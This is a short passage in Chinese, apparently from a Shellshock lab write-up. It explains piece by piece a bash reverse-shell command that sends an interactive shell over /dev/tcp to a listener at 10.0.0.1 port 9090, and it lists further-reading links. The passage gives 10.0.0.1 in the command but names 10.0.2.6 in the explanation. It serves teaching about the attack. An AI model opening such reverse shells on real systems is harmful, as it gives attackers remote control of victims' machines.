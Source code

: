 - 被攻击端启动一个 bash shell，它的输入来自一个 TCP 连接，输出到同一个 TCP 连接
- `- i`表示交互式的，interactive
- `> /dev/tcp/10.0.0.1/9090 shell`将输出设备(stdout)被重定向到 TCP 连接到10.0.2.6的端口9090
- `0 < & 1`: 文件描述符0表示标准输入设备(stdin)。此选项告诉系统使用标准输出设备作为标准输入设备。因为 stdout 已经被重定向到 TCP 连接，所以这个选项基本上表明 shell 程序将从相同的 TCP 连接获取它的输入
- `2 > & 1`: 文件描述符2表示标准错误 stderr。这会导致错误输出被重定向到 stdout，也即是 TCP 连接

# 延伸阅读

- https://wooyun.js.org/drops/Shellshock%E6%BC%8F%E6%B4%9E%E5%9B%9E%E9%A1%BE%E4%B8%8E%E5%88%86%E6%9E%90%E6%B5%8B%E8%AF%95.html

- https://www.zdziarski.com/blog/?p=3905

- https://github.com/jeholliday/shellshock
- https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf

